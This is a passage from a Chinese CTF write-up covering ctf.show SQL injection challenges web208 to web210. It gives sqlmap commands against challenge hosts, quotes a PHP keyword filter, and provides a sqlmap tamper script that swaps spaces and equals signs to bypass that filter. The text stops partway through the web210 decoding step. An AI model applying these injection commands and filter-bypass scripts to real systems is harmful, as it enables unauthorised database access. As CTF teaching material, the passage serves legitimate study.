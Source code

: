 执行成功

```cobol
py3 .\sqlmap.py -u  "http://4d82d474-bc5a-465d-8101-34e5b964f486.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://4d82d474-bc5a-465d-8101-34e5b964f486.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3 
```

## web209 过滤=  *

```php
//对传入的参数进行了过滤
  function waf($str){
   //TODO 未完工
   return preg_match('/ |\*|\=/', $str);
  }
```

发现过滤了 * 和 = 这里我们使用其他的方式绕过  %0a 和 like绕过

```cobol
py3 .\sqlmap.py -u  "http://ef3984e4-cecd-4595-a5b8-159078089bc2.challenge.ctf.show/api/index.php" --headers  "Content-Type: text/plain" --method PUT  --data "id=1" --level 3  --safe-url="http://ef3984e4-cecd-4595-a5b8-159078089bc2.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper 2.py -v3 
```

```cobol
from lib.core.enums import PRIORITY
from lib.core.common import singleTimeWarnMessage
 
__priority__=  PRIORITY.NORMAL
 
def dependencies():
    singleTimeWarnMessage("空格置换/**/、双写绕过select")
def tamper(payload,**kwargs):
    return payload.replace(" ",chr(0x0a)).replace("=",chr(0x0a)+'like'+chr(0x0a))
 
```

## web210  特殊加密的写法

```php
//对查询字符进行解密
  function decode($id){
    return strrev(base64_decode(strrev(base64_decode($id))));
  }
```

这里我们发现 是会对数据进行 一次解密 一次倒装 重复2次 所以我们也要一样执行

一次倒装 一次加密 重复2次即可

这里是python3的写法

